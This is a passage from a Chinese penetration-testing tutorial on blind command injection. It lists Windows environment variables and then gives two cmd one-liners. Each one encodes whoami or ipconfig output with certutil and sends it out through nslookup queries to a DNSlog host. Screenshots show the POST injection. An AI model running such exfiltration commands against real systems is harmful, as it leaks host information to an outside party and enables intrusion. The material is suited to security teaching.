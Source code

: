 ```
//%APPDATA%                本地       返回默认情况下应用程序存储数据的位置。
//%CD%                     本地       返回当前目录字符串。
//%CMDCMDLINE%             本地       返回用来启动当前的 Cmd.exe 的准确命令行。
//%CMDEXTVERSION%          系统       返回当前的“命令处理程序扩展”的版本号。
//%COMPUTERNAME%           系统       返回计算机的名称。
//%COMSPEC%                系统       返回命令行解释器可执行程序的准确路径。
//%DATE%                   系统       返回当前日期。使用与 date /t 命令相同的格式。由 Cmd.exe 生成。有关 date 命令的详细信息，请参阅 Date。
//%ERRORLEVEL%             系统       返回上一条命令的错误代码。通常用非零值表示错误。
//%HOMEDRIVE%              系统       返回连接到用户主目录的本地工作站驱动器号。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。
//%HOMEPATH%               系统       返回用户主目录的完整路径。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。
//%HOMESHARE%              系统       返回用户的共享主目录的网络路径。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。
//%LOGONSERVER%            本地       返回验证当前登录会话的域控制器的名称。
//%NUMBER_OF_PROCESSORS%   系统       指定安装在计算机上的处理器的数目。
//%OS%                     系统       返回操作系统名称。Windows 2000 显示其操作系统为 Windows_NT。
//%PATH%                   系统       指定可执行文件的搜索路径。
//%PATHEXT%                系统       返回操作系统认为可执行的文件扩展名的列表。
//%PROCESSOR_ARCHITECTURE% 系统       返回处理器的芯片体系结构。值：x86 或 IA64（基于 Itanium）。
//%PROCESSOR_IDENTFIER%    系统       返回处理器说明。
//%PROCESSOR_LEVEL%        系统       返回计算机上安装的处理器的型号。
//%PROCESSOR_REVISION%     系统       返回处理器的版本号。
//%PROMPT%                 本地       返回当前解释程序的命令提示符设置。由 Cmd.exe 生成。
//%RANDOM%                 系统       返回 0 到 32767 之间的任意十进制数字。由 Cmd.exe 生成。
//%SYSTEMDRIVE%            系统       返回包含 Windows server operating system 根目录（即系统根目录）的驱动器。
//%SYSTEMROOT%             系统       返回 Windows server operating system 根目录的位置。
//%TEMP%和%TMP%            系统和用户 返回对当前登录用户可用的应用程序所使用的默认临时目录。有些应用程序需要 TEMP，而其他应用程序则需要 TMP。
//%TIME%                   系统       返回当前时间。使用与                                                                                   time       /t                                                                     命令相同的格式。由         Cmd.exe                  生成。有关                       time   命令的详细信息，请参阅 Time。
//%USERDOMAIN%             本地       返回包含用户帐户的域的名称。
//%USERNAME%               本地       返回当前登录的用户的名称。
//%USERPROFILE%            本地       返回当前用户的配置文件的位置。
//%WINDIR%                 系统       返回操作系统目录的位置。
```
#### 5.2.2 其他命令执行
```http
cmd /c whoami > temp && certutil -encode -f temp temp&&FOR /F "eol=- delims=" %i IN (temp) DO (set _=%i & cmd /c nslookup %_:~0,-1%.xxxx.ceye.io)&del temp
```

```http
cmd /c ipconfig > temp && certutil -encode -f temp temp&&FOR /F "eol=- delims=" %i IN (temp) DO (set _=%i & cmd /c nslookup %_:~0,40%.xxxx.ceye.io & cmd /c nslookup %_:~40,-1%.xxxx.ceye.io)&del temp
```

通过POST传参测试
![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505162550-1ce46dae-aed3-4995-9021-f8a247144874.png#align=left&display=inline&height=95&margin=%5Bobject%2Object%5D&originHeight=159&originWidth=414&status=done&style=none&width=248)
传参的内容需要进行url编码
![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505162770-391b3b8d-9947-440a-9529-5004a5bbd534.png#align=left&display=inline&height=118&margin=%5Bobject%2Object%5D&originHeight=431&originWidth=1521&status=done&style=none&width=415)
Post传参
![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505163079-b19d4b32-222e-4b37-ab74-a88964a3839b.png#align=left&display=inline&height=138&margin=%5Bobject%2Object%5D&originHeight=407&originWidth=1226&status=done&style=none&width=416)
Dnslog获取结果
![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505163323-d049cc56-b450-4492-8ee3-434865c75b6c.png#align=left&display=inline&height=170&margin=%5Bobject%2Object%5D&originHeight=465&originWidth=1135&status=done&style=none&width=415)
Base64解码获取内容
![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505163685-f6a56798-fc6e-4dd3-8f6b-520b6a7efd23.png#align=left&display=inline&height=229&margin=%5Bobject%2Object%5D&originHeight=382&originWidth=648&status=done&style=none&width=389)

## 总结
       在渗透测试过程中，无回显是很常见的，程序不可能将一些操作都回显到页面中，那么这种时候我们就需要外带数据来获取想要的内容。当然最好就是能够反弹shell，通过获取shell来执行命令，这样会舒服很多。
       无回显的情况还有很多很多，这里简单介绍了几种，希望读者朋友们能够从中学到对于无回显的情况下如何进行渗透测试，方法很多，不固定，学习思路即可。
